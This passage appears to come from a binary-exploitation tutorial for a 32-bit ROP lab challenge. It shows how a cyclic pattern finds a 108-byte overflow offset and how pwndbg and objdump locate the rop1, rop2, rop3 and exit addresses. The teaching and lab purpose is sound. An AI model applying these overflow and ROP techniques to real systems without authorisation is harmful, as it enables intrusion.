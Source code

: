 ```
cyclic 200
```

**Then, copy/paste the pattern and send it to the program as an argument:**

{% code overflow="wrap" %}
```
r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Generating pattern to find <code>EBP</code> offset</p></figcaption></figure>

Great, we now found our padding.&#x20;

It will be 108 because we are subtracting 4-bytes to make room for the `EIP`.

### Using `pwndbg` to find addresses

```
disass rop1
   0x08049182 <+0>:     push   ebp
   
disass rop2
   0x080491ad <+0>:     push   ebp
   
disass rop3
   0x080491d8 <+0>:     push   ebp

disass exit
   0xf7dbb460 <+0>:     endbr32
```

### Using `objdump` to find addresses

```
objdump -d rop1 | grep rop1
rop1:     file format elf32-i386
08049182 <rop1>:

objdump -d rop1 | grep rop2
080491ad <rop2>:

objdump -d rop1 | grep rop3
080491d8 <rop3>:
```
